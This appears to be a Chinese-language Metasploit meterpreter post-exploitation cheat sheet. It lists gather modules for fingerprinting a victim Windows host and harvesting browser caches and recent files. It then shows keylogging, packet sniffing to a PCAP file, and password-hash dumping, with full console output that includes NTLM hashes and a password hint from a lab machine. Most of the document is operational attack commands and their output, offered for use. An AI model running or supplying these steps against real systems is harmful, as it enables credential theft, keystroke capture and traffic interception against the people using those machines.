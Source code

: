 再也不用去网上找Exp来下载拉～：）


####获取敏感信息（Windows版本 Linux自行选择）


    run post/windows/gather/checkvm #是否虚拟机
    run post/windows/gather/enum_applications #获取安装软件信息
    run post/windows/gather/dumplinks   #获取最近的文件操作
    run post/windows/gather/enum_ie  #获取IE缓存
    run post/windows/gather/enum_chrome   #获取Chrome缓存
    run scraper                      #获取常见信息
    #保存在～/.msf4/logs/scripts/scraper/目录下

详细请参考 http://drops.wooyun.org/tips/9732

####键盘记录

	meterpreter > keyscan_start   
	Starting the keystroke sniffer...
	meterpreter > keyscan_dump   
	Dumping captured keystrokes...  
	dir <Return> cd  <Ctrl>  <LCtrl>     
	meterpreter > keyscan_stop   
	Stopping the keystroke sniffer...  

####网络嗅探

	meterpreter > use sniffer
	Loading extension sniffer...success.
	meterpreter > sniffer_interfaces

	1 - 'WAN Miniport (Network Monitor)' ( type:3 mtu:1514 usable:true dhcp:false wifi:false )
	2 - 'Intel(R) PRO/1000 MT Desktop Adapter' ( type:0 mtu:1514 usable:true dhcp:true wifi:false )
	3 - 'Cisco Systems VPN Adapter' ( type:4294967295 mtu:0 usable:false dhcp:false wifi:false )

	meterpreter > sniffer_start 2
	[*] Capture started on interface 2 (50000 packet buffer)
	meterpreter > sniffer_dump 2 /tmp/test2.cap
	[*] Flushing packet capture buffer for interface 2...
	[*] Flushed 1176 packets (443692 bytes)
	[*] Downloaded 100% (443692/443692)...
	[*] Download completed, converting to PCAP...
	[*] PCAP file written to /tmp/test2.cap




####获取Hash


	meterpreter > run post/windows/gather/smart_hashdump

	[*] Running module against TESTING
	[*] Hashes will be saved to the database if one is connected.
	[*] Hashes will be saved in loot in JtR password file format to:
	[*] /home/croxy/.msf4/loot/20150929225044_default_10.0.2.15_windows.hashes_407551.txt
	[*] Dumping password hashes...
	[*] Running as SYSTEM extracting hashes from registry
	[*] 	Obtaining the boot key...
	[*] 	Calculating the hboot key using SYSKEY 8c2c8d96e92a8ccfc407a1ca48531239...
	[*] 	Obtaining the user list and keys...
	[*] 	Decrypting user keys...
	[*] 	Dumping password hints...
	[+] 	Croxy:"Whoareyou"
	[*] 	Dumping password hashes...
	[+] 	Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::	
	[+] 	HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:e3f0347f8b369cac49e62a18e34834c0:::
	[+] 	test123:1003:aad3b435b51404eeaad3b435b51404ee:0687211d2894295829686a18ae83c56d:::
